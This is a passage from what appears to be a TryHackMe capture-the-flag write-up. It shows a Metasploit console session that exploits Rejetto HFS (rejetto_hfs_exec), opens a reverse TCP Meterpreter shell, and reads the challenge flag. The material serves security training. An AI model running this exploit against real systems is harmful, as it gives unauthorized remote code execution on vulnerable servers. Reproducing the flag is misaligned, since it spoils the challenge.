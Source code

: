 ```bash
[-] Unknown command: excploit
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:1111
[*] Using URL: http://thmjmp2.za.tryhackme.com:8081/C5fvRY
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /C5fvRY
[*] Sending stage (175686 bytes) to 127.0.0.1
[!] Tried to delete %TEMP%\dHEPu.vbs, unknown result
[*] Meterpreter session 1 opened (127.0.0.1:1111 -> 127.0.0.1:37034) at 2023-07-04 14:42:26 +0800
[*] Server stopped.

meterpreter > cat C:\hfs\flag.txt
[-] stdapi_fs_stat: Operation failed: The system cannot find the file specified.
meterpreter > cat "C:\hfs\flag.txt"
THM{FORWARDING_IT_ALL}
meterpreter >
```

## Conclusion

